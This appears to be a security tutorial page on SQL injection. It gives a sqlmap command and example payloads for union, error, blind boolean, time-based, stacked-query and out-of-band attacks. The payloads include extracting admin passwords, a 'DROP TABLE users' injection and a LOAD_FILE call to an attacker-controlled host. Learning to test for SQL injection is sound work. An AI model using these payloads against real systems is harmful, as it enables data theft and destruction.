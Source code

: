 # SqlI

## WriteUps

[Tricks](https://www.notion.so/Tricks-24078b2152854f11896181383e961288?pvs=21)

[Portswigger](https://www.notion.so/Portswigger-1e21202e068540619f1f1b0c3802be0a?pvs=21)

**@Mysql**

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

[Information\_schema](https://www.notion.so/Information\_schema-79ab4c7abc2a4892beb49e4c58fc31a8?pvs=21)

## How use Sqlmap

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sqlmap -r req.txt --dbs --random-agent --risk 3 --level 5
```

## How SQL Injection Works

At its core, SQLi exploits vulnerabilities in the input validation framework of an application.

When user inputs are not properly sanitized, an attacker can inject malicious SQL queries that the application will execute without question.

This can result in unauthorized access to sensitive information, data manipulation, and even complete control over the database.

### 1. Detection of SQL Injection Vulnerabilities

#### **Reconnaissance** => backend Use + DBMS

Detecting SQL Injection vulnerabilities involves testing for unexpected or unhandled inputs.

Techniques such as submitting single quotes (<mark style="color:red;">`'`</mark>), double quotes (<mark style="color:red;">`"`</mark>), or other SQL control characters can reveal how an application processes input.

Observing error messages or application responses can provide clues about the underlying SQL query structure, indicating potential injection points.

### Entry Point Detection Examples:

* **Confirming with Logical Operations:** Using statements like <mark style="color:red;">**`1' OR '1'='1`**</mark> can help determine if an application is vulnerable by altering the query logic.
* **Timing Attacks:** Introducing deliberate delays (`SLEEP` functions) in queries can help identify blind SQL Injection vulnerabilities by observing response times.

### 2. Exploiting SQL Injection

Once a vulnerability is identified, exploiting it can take various forms depending on the database and the nature of the vulnerability:

> A. _**Union Based SQL Injection:**_

_**Identifying the Number of Columns:**_

Both <mark style="color:red;">**`ORDER BY`**</mark> and <mark style="color:red;">`GROUP BY`</mark> can be exploited to identify the number of columns in the query's result set. This is crucial for constructing a successful <mark style="color:red;">**`UNION SELECT`**</mark> attacks.

**Scenario:** You’ve identified a page that displays user details based on their ID from the URL parameter `?id=1`.

_**Vulnerable SQL Query:**_

```sql
SELECT name, age FROM users WHERE id = $_GET['id'];
```

_**Exploitation**_**:**

```sql
?id=1 UNION SELECT username, password FROM admin_users
```

In this example, the attacker appends a `UNION SELECT` query to retrieve usernames and passwords from an `admin_users` table, bypassing the intended query's limitations.

> B. Error-Based SQL Injection:

It involves generating database errors to extract information from the error messages.

**Scenario:** An application displays detailed error messages when SQL queries fail.

_**Vulnerable SQL Query:**_

```sql
SELECT title, content FROM articles WHERE id = $_GET['id'];
```

_**Exploitation:**_

```sql
?id=1 AND (SELECT COUNT(*) FROM admin_users) = CAST('' AS INTEGER)
```

This payload causes a type conversion error, potentially revealing information about the database structure or data through error messages.

> C. Blind SQL Injection:

No data is transferred from the web application to the attacker, so the attacker sends data to the database, true or false questions, and observes the response.

**Scenario:** The application does not display error messages or query results, but changes in response can be observed.

_**Boolean-Based Exploitation:**_

```sql
?id=1 AND (SELECT SUBSTRING(password, 1, 1) FROM admin_users WHERE username = 'admin') = 'a'
```

This method involves iteratively guessing the password character by character, and observing the application’s behavior (e.g., response time or content changes) to confirm the guess.

_**Time-Based Exploitation:**_

```sql
?id=1 AND IF((SELECT SUBSTRING(password, 1, 1) FROM admin_users WHERE username = 'admin') = 'a', sleep(5), 'false')
```

This payload uses a conditional time delay to confirm the password character, exploiting the database’s response time.

> D. Stacked Queries SQL Injection

**Key Detail:** The database and interface must support multiple queries executed in a single database call.

**Example:**

```
?id=1; DROP TABLE users --
```

Stacked queries allow an attacker to execute additional queries after the initial, legitimate query. This is highly dependent on the database and the programming language’s database driver or ORM the application uses.

> E. Out-of-Band (OOB) SQL Injection

**Key Detail:** The database server must be able to make DNS or HTTP requests to external servers.

**Example:**

```
?id=1; SELECT LOAD_FILE('\\\\\\\\attacker-controlled-server.com\\\\data')
```

OOB techniques rely on the database server’s ability to communicate with external systems, allowing data exfiltration via DNS queries or HTTP requests.

> F. Advanced SQL Injection Techniques

* **Authentication Bypass:** Attackers might inject SQL to bypass login algorithms, often targeting the query logic.**Mitigation:** Employ strong input validation and parameterized queries for authentication mechanisms.
* **Inferential SQL Injection:** Similar to Blind SQLi, this method involves making logical guesses about the data structure and content.**Mitigation:** Use WAFs and ensure applications do not reveal any hints in their responses.
* **Second Order SQL Injection:** Occurs when user input is stored and later executed as a SQL query.**Mitigation:** Always sanitize user inputs, even when they are not immediately used in database queries.
